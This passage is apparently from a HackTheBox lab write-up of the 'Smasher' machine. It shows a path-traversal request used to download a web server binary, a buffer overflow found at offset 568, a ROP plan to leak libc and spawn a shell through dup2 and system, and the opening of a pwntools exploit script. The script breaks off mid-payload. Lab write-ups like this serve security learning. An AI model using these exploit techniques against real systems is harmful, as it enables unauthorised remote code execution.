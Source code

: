 Next, we'll grab the binary file and check if it's compiled with additional protections:

```
oot@kali:~/hackthebox/Machines/Smasher# nc -nv 10.10.10.89 1111 > tiny
(UNKNOWN) [10.10.10.89] 1111 (?) open
GET ../../../../home/www/tiny-web-server/tiny
```

We edit the file with vi and strip the HTTP headers, then we get a clean ELF file:

```
root@kali:~/hackthebox/Machines/Smasher# file tiny
tiny: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b872377623aa9e081bc7d72c8dbe882f03bf66b7, with debug_info, not stripped

root@kali:~/hackthebox/Machines/Smasher# checksec tiny
[*] '/root/hackthebox/Machines/Smasher/tiny'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
    FORTIFY:  Enabled
```

### Buffer overflow

There's an overflow in the GET parameter: if we send more than 568 characters in the GET request it'll crash. Because we have the binary and we can look around the file system we can:

- Check the PLT/GOT offsets in the binary
- Determine the libc version running on the target system

To find the libc base address, we'll construct a rop chain and use the `read` function already present in the PLT. By chance, the `RDX` register is already set to a large value so we don't need to find a gadget to mess with it. The binary contains `POP RDI` and `POP RSI` gadgets so we can pass the right parameters to the `read` function and dump a chunk of memory.

Calculating the libc address is a matter of fetching the `read` address from the GOT, then substracting its offset (which we know because we have the libc version). After, we'll calculate the memory address for `system`, `dup2` and the `/bin/sh` string.

We need to build a ROP chain that calls `dup2` first so we can redirect stdin and stdout to the socket.

The final exploit is:

```python
#!/usr/bin/python

from pwn import *

import urllib
import sys

r = remote('10.10.10.89', 1111)

fd = 4
offset = 568
junk = p64(0xAABBAABBAABBAABB)

plt_read = p64(0x400cf0)
plt_write = p64(0x400c50)
poprdi = p64(0x4011dd)
poprsi = p64(0x4011db)

payload_stage1 = ''
payload_stage1 += 'A' * offset
```
